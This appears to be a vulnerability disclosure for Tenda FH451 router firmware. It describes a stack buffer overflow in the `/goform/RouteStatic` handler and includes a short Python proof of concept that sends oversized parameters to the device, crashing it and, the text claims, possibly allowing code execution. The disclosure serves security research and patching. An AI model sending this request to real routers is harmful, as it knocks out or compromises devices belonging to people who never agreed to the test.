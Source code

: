# Tenda FH451 Vulnerability
This vulnerability lies in the `/goform/RouteStatic` page which influences the lastest version of Tenda [FH451_V1.0.0.5](https://www.tenda.com.cn/download/detail-1375.html) and Tenda [FH451_V1.0.0.7](https://www.tenda.com.cn/download/detail-1594.html).
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `fromRouteStatic`.

In function `fromRouteStatic` it reads 2 user provided parameters `entrys` and `mitInterface` into `v8` and `v7`, and these two variables are passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/FH451/42/vlun1.png)
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/FH451/42/vlun2.png)

So by requesting the page `/goform/RouteStatic`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/RouteStatic?"
url += "entrys=" + "s" * 0x200
url += "&mitInterface=" + "a" * 0x200

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@XYlearn](https://github.com/XYlearn) and [@Funcy_kilar](https://github.com/Funcy33) from Fudan University, Guangzhou University.
